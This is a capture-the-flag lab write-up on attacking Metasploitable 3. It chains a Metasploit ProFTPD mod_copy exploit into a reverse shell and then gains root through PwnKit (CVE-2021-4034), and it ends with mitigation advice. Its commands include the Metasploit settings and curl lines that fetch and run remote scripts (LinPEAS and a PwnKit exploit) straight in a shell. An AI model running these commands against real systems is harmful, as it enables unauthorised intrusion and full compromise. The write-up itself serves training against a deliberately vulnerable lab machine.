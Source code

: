 # 🧨 Metasploit Table 3 — From Frustration to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 💀 Impossible  
**Tags:** `Metasploit`, `ProFTPD`, `PwnKit`, `Privilege Escalation`, `Linux`

---

## 📘 Description

This challenge is based on **Metasploitable 3 (Table 3)**.  
The goal: gain initial access, escalate privileges, and become **root**.  

It involves exploiting an **FTP service (ProFTPD)** misconfiguration and then chaining it with a **local privilege escalation (PwnKit, CVE-2021-4034)**.

---

## 🔍 Reconnaissance

### Nmap Scan

```bash
nmap -sS -sV -O -T4 172.28.128.3
```

**Results:**

| Port | Service     | Version             | Notes                                |
|------|-------------|---------------------|--------------------------------------|
| 21   | FTP         | ProFTPD 1.3.5       | Vulnerable to mod_copy RCE           |
| 22   | OpenSSH     | 6.6.1p1             | Old version, not the attack path     |
| 80   | Apache HTTP | 2.4.7 + PHP 7.0.2   | Minor CVEs, but not primary vector   |
| 631  | CUPS        | 1.7                 | Some CVEs, possible Shellshock, skip |

---

## 🔥 Vulnerability: ProFTPD mod_copy (RCE)

The **ProFTPD mod_copy** module allows copying files on the server using FTP commands.  
This can be abused to copy a PHP payload into the webroot, then execute it via the browser.

- **Metasploit module:** `exploit/unix/ftp/proftpd_modcopy_exec`  

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 172.28.128.3
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 172.28.128.1
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LPORT 4444
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run
```

🎉 **Result:** Reverse shell obtained as **www-data (UID 33)**.  

---

## 🧠 Privilege Escalation

### Step 2: Enumeration with LinPEAS

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

🔎 Found vulnerable **PwnKit (CVE-2021-4034)**.

### Step 3: Exploit PwnKit

```bash
eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
```

🔥 Boom → Got **root access**.  

---

## 🏆 Final Outcome

✔️ Exploited **ProFTPD mod_copy** → gained reverse shell  
✔️ Enumerated with **LinPEAS**  
✔️ Escalated privileges with **PwnKit (CVE-2021-4034)**  
✔️ Achieved **ROOT**  

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                 |
|-----------------|------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of sensitive files (config, DB creds, system files) |
| Integrity       | 🔴 Attacker can modify system files, add users, backdoors              |
| Availability    | 🔴 Full DoS possible (delete system binaries, crash services)          |

---

## 🛡️ Mitigation

- Patch **ProFTPD** (remove or update `mod_copy`).  
- Patch **Polkit** to fix **PwnKit (CVE-2021-4034)**.  
- Run services with **least privilege**.  
- Use **segmentation**: FTP/web should not run as privileged users.  
- Continuous monitoring with host-based IDS (e.g. OSSEC).  

---

## 💡 Reflection

This lab was tough but highly rewarding:  
- It taught chaining **service exploitation** + **local privilege escalation**.  
- Reinforced patience, persistence, and using automation (LinPEAS).  
- Demonstrated a **realistic attack path** from **exposed FTP → root compromise**.  

🔥 Day 84 — From scanning → exploitation → privilege escalation → **ROOT**!  
